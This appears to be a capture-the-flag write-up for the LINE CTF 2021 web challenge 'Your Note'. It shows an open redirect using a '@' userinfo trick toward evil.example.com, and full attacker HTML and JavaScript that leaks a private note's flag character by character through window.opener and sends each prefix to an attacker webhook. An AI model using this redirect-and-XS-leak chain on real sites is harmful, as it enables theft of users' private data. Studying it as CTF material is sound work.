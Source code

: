 # LINE CTF 2021 - Web - Your Note

## Problem

> Secure private note service  
  
> ※ Admin have disabled some security feature of their browser...  
>  
> Flag Format: LINECTF{[a-z0-9-]+}  
>  
> http:// 34.84.243.202  
  
> http:// 35.200.11.35 (mirror)  
  
> http:// 34.84.72.167 (mirror)

## Solution

### Step 1. Redirect to an arbitrary URL

The login API is as follows:  
```python  
@app.route('/login', methods=['GET', 'POST'])  
def login():  
   url = request.args.get('redirect')  
   if url:  
       url = app.config.get('BASE_URL') + url  
       if current_user.is_authenticated:  
           return redirect(url)

   if request.method == 'POST':  
       # -- snip --

   elif request.method == 'GET':  
       return render_template('login.html')  
```

This API provides a redirect to `app.config.get('BASE_URL') +
request.args.get('redirect')`, where `BASE_URL = f"http://{APP_HOST}"`.

Then, if we send `http://34.84.72.167/[email protected]` to the bot, the
redirect url is `http://{APP_HOST}@evil.example.com`. So, we can make the bot
redirect to an arbitary URL because `{APP_HOST}` is interpreted as a user name
in the URL.

### Step 2. Specify the flag with `window.opener`

A part of `crawler.js` is as follows:  
```javascript  
       /* -- snip -- */

       const browser = await puppeteer.launch({  
           args: [  
               '--no-sandbox',  
               '--disable-popup-blocking',  
           ],  
           headless: true,  
       });  
       const page = await browser.newPage();

       /* -- snip -- */  
```

The `--disable-popup-blocking` option enables us to use `window.open`.

So, I prepared the following attack server:

- `index.html`:  
   ```html  
   <script>  
     window.open("evil.html");  
   </script>  
   ```  
- `empty.html`:  
   ```html

   ```  
- `evil.html`  
   ```html  
   <script>  
   const url = "http://34.84.72.167";  
   const webhook = "https://{{ ... }}";  
   const chars = "}-abcdefghijklmnopqrstuvwxyz0123456789";  
   const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

   const main = async () => {  
     await sleep(200);

     window.open(`${webhook}/ping`);

     let prefix = "LINECTF{";

     while (true) {  
       if (prefix.endsWith("}")) {  
         break;  
       }  
       window.open(`${webhook}/prefix/${prefix}`);

       await sleep(200);  
       let exists = false;  
       for (const c of chars) {

         window.opener.location.href = `/empty.html`;  
         await sleep(200);  
         window.opener.location.href = `${url}/search?q=${prefix + c}&download`;  
         await sleep(500);

         try {  
           console.log(window.opener.document.body.textContent);  
           prefix += c;  
           exists = true;  
           break;  
         } catch (e) { }  
       }  
       if (!exists) {  
         window.open(`${webhook}/fail/${prefix}`);  
         return;  
       }  
     }  
     window.open(`${webhook}/success/${prefix}`);  
   };  
   main();  
   </script>  
   ```

If a user who has a note with a flag `LINECTF{[a-z0-9-]+}` accesses
`index.html`, the flag is leaked in order from the first character. This is a
XS-leak attack with Cross-Origin-Opener-Policy.

This attack was successful in my local environment. However, unfortunately,
because the problem server was unstable, I got the flag by adjusting the sleep
times and saving the search range at that point :(

## Flag

`LINECTF{1-kn0w-what-y0u-d0wn10ad}`  

Original writeup
(https://github.com/x-vespiary/writeup/blob/master/2021/03-line/web-your-
note.md).